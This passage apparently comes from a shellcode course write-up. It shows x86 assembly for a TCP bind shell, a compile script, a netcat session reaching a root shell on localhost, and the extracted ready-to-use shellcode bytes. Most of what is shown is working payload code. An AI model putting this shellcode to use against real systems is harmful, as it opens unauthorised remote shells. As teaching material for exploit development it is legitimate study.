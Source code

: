       dup2:
        mov al, 0x3f ;dup2
        int 0x80
        dec ecx
        jns dup2
    
        ;; Call execve
        xor eax, eax
        mov al, 0xb ;execve
        xor ebx, ebx
        push ebx
        push 0x68732f2f ;"sh//"
        push 0x6e69622f ;"nib/"
        mov ebx, esp
        xor ecx, ecx
        xor edx, edx
        int 0x80

{% endhighlight %}

When we compile the above shellcode using the compile.sh script below:

{% highlight bash %}
    #!/bin/bash
    echo '[+] Assembling with Nasm ... '
    nasm -f elf32 -o $1.o $1.nasm
    
    echo '[+] Linking ...'
    ld -o $1 $1.o
    
    echo '[+] Done!'
{% endhighlight %}

`root@blahblah:~/shared/SLAE/slae/exercise1# ./compile.sh bindshellasm`

And run the shellcode using:

`root@blahblah:~/shared/SLAE/slae/exercise1# ./bindshellasm`

And connect using netcat:

    #!/bin/bash
    root@blahblah:~/shared/SLAE/slae/exercise1# nc -nv 127.0.0.1 4444
    (UNKNOWN) [127.0.0.1] 4444 (?) open
    id
    uid=0(root) gid=0(root) groups=0(root)

Bingo! Our assembly works and gives us a tcp bind shell. Now we need to test it
in our c program stub. We will use some command line fu to get the opcodes
from our binary:

    root@funos:~/shared/SLAE/slae/exercise1# objdump -d ./bindshellasm|grep '[0-9a-f]:'| \
    grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '\
    |sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
    
    "\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89\xe1\xcd\x80\x31"
    "\xff\x89\xc7\x31\xc0\xb0\x66\x31\xdb\xb3\x02\x31\xc9\x51\x66\x68\x11\x5c\x66"
    "\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x04"
    "\x31\xc9\x51\x57\x89\xe1\xcd\x80\x31\xc0\xb0\x66\x31\xdb\xb3\x05\x31\xc9\x51"
    "\x51\x57\x89\xe1\xcd\x80\x31\xdb\x89\xc3\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49"
    "\x79\xf9\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
    "\x89\xe3\x31\xc9\x31\xd2\xcd\x80"
